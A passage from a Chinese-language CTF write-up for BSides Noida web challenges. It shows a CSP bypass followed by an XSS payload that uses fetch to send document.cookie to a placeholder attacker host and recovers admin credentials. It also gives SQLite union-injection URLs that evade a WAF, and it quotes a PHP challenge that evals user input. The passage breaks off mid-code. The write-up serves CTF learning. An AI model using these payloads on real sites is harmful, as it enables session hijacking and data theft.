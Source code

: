 在 token 处加入 url 编码的 `; script-src-attr 'unsafe-inline'`。

![image-20210810121350236](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210810121350236.png)

下面就可以拿 cookie 了。

```js
<img src=# onerror='fetch("http://xxxx:8000/?cookie=" + encodeURI(document.cookie))'>
```

![image-20210810121729367](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210810121729367.png)

拿到 cookie ：`YWRtaW46djNyeTUzY3IzdFA0c3N3MHJkZGRk`

解码为 `admin:v3ry53cr3tP4ssw0rdddd`

修改 cookie 后进入。

![image-20210810121958596](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210810121958596.png)







## Web5 Baby Web Revenge

sqlite 注入 nginx waf 好像和上一个一样？？？只是换了一下表名。

```
http://ctf.babywebrevenge.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/sql/**/from/**/sqlite_master/**/limit/**/1,1),4,5,6
```

![image-20210809162553964](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809162553964.png)

```
http://ctf.babywebrevenge.bsidesnoida.in/?chall[id=-1/**/union/**/select/**/1,2,(select/**/flag/**/from/**/therealflags),4,5,6
```

![image-20210809162638867](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809162638867.png)



## Web6 Calculate

```php
<?php
error_reporting(0);
include "config.php";

if (isset($_POST['VietNam'])) {
    $VN = $_POST['VietNam'];
    if (filter($VN)) {
        die("nope!!");
    }
    if (!is_string($VN) || strlen($VN) > 110) {
        die("18cm30p ??? =)))");
    }
    else {
        $VN = "echo ".$VN.";";
        eval($VN);
    }
} else {
    if (isset($_GET['check'])) {
        echo phpinfo();
    }
    else {
        highlight_file(__FILE__);
```